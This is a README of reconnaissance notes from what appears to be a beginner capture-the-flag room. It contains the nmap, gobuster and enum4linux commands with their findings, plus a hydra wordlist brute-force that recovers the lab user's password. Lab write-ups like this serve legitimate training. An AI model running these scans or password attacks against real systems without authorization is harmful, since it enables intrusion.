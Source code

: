 README.MD
# Basic Pen Room.


### NMAP

Command:
```
nmap -sV -sT -A -oN basicpen_nmap.txt 10.10.179.252
```

Ports:

```
22
80
139
445
8009
8080
```

8009:
- Apache jserv (proto v1.3)
- GET, Head, Post, Options.

8080:
- Apache Tomcat 9.0.7
- 

Web Server: Apache/2.4.18
OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
PC name: basic2
smb security mode:
- Account used: Guest
- Auth level: user
- No message signing.

### Gobuster

Command:
```
gobuster -w ../../../tools/lists/directory-list-2.3-medium.txt -u 10.10.179.252 | tee gobuster_report.txt
```

Path's found:

```
/Development
```

two notes saying J has weak password and SMB setup.

### Enum4linux

Command:
```
 enum4linux -a 10.10.179.252 | tee enum4linux_report.txt
```

users: 
```
kay
jan
```

### Hydra

Command: 

```
hydra -l jan -P /usr/share/wordlist/rockyou.txt
```

Password found:
```
armando
```
